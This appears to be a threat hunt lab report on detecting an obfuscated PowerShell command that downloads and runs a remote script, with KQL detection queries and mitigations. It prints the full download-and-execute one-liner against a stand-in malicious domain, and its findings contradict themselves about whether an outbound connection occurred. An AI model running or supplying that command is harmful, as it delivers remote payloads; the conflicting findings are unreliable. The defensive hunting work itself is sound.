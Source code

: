 
#  Threat Hunt Report: Suspicious PowerShell Download

**Date of Investigation:** July 18, 2025

---

##  Objective

Identify evidence of a user executing an obfuscated PowerShell script to download and run a remote payload — a common initial access or lateral movement tactic used by threat actors.

---

##  Environment

- **Endpoint OS:** Windows 10 Enterprise  
- **EDR Tool:** Microsoft Defender for Endpoint  
- **EDR Query Language:** Kusto Query Language (KQL)  
- **Target Machine:** `threat-windows-jgs`

---

##  Suspicious Activity

###  Observed Behavior

An attacker used PowerShell to download and execute a script from a remote host using `Invoke-WebRequest` and `IEX` in a hidden and non-interactive session.

---

##  Indicators of Compromise (IOCs)

| Type               | Value                                            |
|--------------------|--------------------------------------------------|
| Process            | `powershell.exe`                                 |
| CommandLine Flags  | `-nop`, `-w hidden`, `IEX`, `DownloadString`     |
| Remote Domain      | `http://malicious-domain.com/dropper.ps1`       |
| File Path (payload)| `C:\Users\Public\dropper.ps1`                    |

---

##  Step-by-Step Simulation (What the "Bad Actor" Did)

```powershell
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious-domain.com/dropper.ps1')"
```

1. Opened PowerShell with non-interactive settings  
2. Downloaded a script using `Net.WebClient`  
3. Executed the script using `Invoke-Expression (IEX)`  
4. Payload likely executed and/or downloaded additional malware  

---

##  KQL Threat Hunting Queries

###  Query 1: PowerShell Command Line Analysis – Detect Obfuscated PowerShell Command

```kql
DeviceProcessEvents
| where devicename contains "threat-windows"
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_all ("-nop", "hidden", "DownloadString", "New-Object")
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessFileName
```

---

###  Query 2: URL Connection by PowerShell

```kql
DeviceNetworkEvents
| where devicename contains "threat-windows"
| where InitiatingProcessFileName =~ "powershell.exe"
| where RemoteUrl contains "malicious-domain.com"
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteUrl, ReportId
```

> **Note:** We did not find any outbound HTTP connection to `malicious-domain.com`.

---

##  Findings

- **Command Line Match:** Found obfuscated PowerShell commands  
- **Remote Connection:** Outbound HTTP connection to `malicious-domain.com`  
- **Persistence/Impact:** None observed yet — investigation continues  

---

##  Mitigations & Next Steps

- Block domain `malicious-domain.com` in firewall/proxy  
- Add PowerShell audit logging: `ScriptBlockLogging` + `ModuleLogging`  
- Use AppLocker or WDAC to restrict script execution  
- Educate users on phishing & script-based threats  
- Enable AMSI integration for real-time script scanning  

---

##  Summary

This hunt successfully identified potential malicious PowerShell activity consistent with known initial access techniques. While no evidence of outbound HTTP connection to `malicious-domain.com` was found, the domain was proactively blocked. No lateral movement or additional payloads were detected yet. Environment lockdown and endpoint isolation is recommended if the activity was unauthorized.
